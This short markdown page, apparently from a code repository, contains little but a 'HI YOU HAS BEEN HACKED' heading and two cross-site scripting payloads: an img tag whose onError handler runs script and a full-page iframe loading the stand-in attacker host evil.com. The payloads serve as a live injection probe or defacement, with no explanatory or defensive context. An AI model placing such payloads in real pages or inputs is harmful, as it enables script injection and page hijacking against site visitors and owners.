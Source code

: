 # HI YOU HAS BEEN HACKED

## "><img src=x onError=prompt(1)>

### 

"><iframe src="https://evil.com" height="100%" width="100%" frameborder="0"></iframe>


